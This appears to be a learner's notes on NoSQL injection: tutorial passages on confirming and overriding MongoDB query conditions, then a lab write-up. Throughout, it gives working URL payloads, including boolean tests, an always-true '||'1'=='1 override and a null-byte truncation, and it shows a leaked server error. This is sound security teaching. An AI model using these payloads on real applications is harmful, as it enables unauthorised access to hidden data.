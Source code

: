 
**Confirming conditional behavior**

After detecting a vulnerability, the next step is to determine whether you can influence boolean conditions using NoSQL syntax.

To test this, send two requests, one with a false condition and one with a true condition. For example you could use the conditional statements `' && 0 && 'x` and `' && 1 && 'x` as follows:

`https://insecure-website.com/product/lookup?category=fizzy'+%26%26+0+%26%26+'x`
    
`https://insecure-website.com/product/lookup?category=fizzy'+%26%26+1+%26%26+'x`

If the application behaves differently, this suggests that the false condition impacts the query logic, but the true condition doesn't. This indicates that injecting this style of syntax impacts a server-side query.

**Overriding existing conditions**

Now that you have identified that you can influence boolean conditions, you can attempt to override existing conditions to exploit the vulnerability. For example, you can inject a JavaScript condition that always evaluates to true, such as `'||'1'=='1`:

`https://insecure-website.com/product/lookup?category=fizzy%27%7c%7c%27%31%27%3d%3d%27%31`

This results in the following MongoDB query:
`this.category == 'fizzy'||'1'=='1'`

As the injected condition is always true, the modified query returns all items. This enables you to view all the products in any category, including hidden or unknown categories. 

You could also add a null character after the category value. MongoDB may ignore all characters after a null character. This means that any additional conditions on the MongoDB query are ignored. For example, the query may have an additional this.released restriction:
`this.category == 'fizzy' && this.released == 1`

The restriction `this.released == 1` is used to only show products that are released. For unreleased products, presumably `this.released == 0`.

In this case, an attacker could construct an attack as follows:
`https://insecure-website.com/product/lookup?category=fizzy'%00`

This results in the following NoSQL query:
`this.category == 'fizzy'\u0000' && this.released == 1`

If MongoDB ignores all characters after the null character, this removes the requirement for the released field to be set to 1. As a result, all products in the fizzy category are displayed, including unreleased products. 
### Lab: Detecting NoSQL injection

The product category filter for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection.

To solve the lab, perform a NoSQL injection attack that causes the application to display unreleased products.

When I access `/filter?category=Accessories'` path, the web return
```
Command failed with error 139 (JSInterpreterFailure): &apos;SyntaxError: unterminated string literal :
functionExpressionParser@src/mongo/scripting/mozjs/mongohelpers.js:46:25
&apos; on server 127.0.0.1:27017. The full response is {&quot;ok&quot;: 0.0, &quot;errmsg&quot;: &quot;SyntaxError: unterminated string literal :\nfunctionExpressionParser@src/mongo/scripting/mozjs/mongohelpers.js:46:25\n&quot;, &quot;code&quot;: 139, &quot;codeName&quot;: &quot;JSInterpreterFailure&quot;}
```
To display unrealease product: `/filter?category=Accessories'||'1`
